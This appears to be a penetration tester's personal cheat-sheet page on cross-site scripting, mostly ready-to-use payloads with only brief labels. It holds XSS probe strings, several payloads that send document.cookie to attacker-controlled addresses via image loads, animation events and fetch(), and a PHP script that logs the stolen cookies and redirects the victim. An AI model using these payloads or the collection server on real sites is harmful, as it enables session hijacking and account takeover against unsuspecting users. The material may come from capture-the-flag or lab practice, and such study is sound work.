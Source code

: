 [[XSS|XSS]]

If HttpOnly is off:
[[HttpOnly]]
```html
"><img src=x onerror=prompt(document.domain)>

"><img src=x onerror=confirm(1)>

"><img src=x onerror=alert(1)>

<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>

	
<script src="http://10.10.14.204:8888/?test=1" />
```

Server for recieving cookies:
```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

**N.B.** Use https://app.interactsh.com/#/ or Burp Collaborator for real word (bc of https)

HTTPS payload
```html
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```
if CORS and SOP policy allows ajax-requests [[CORS]] [[SOP]]
```html
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```
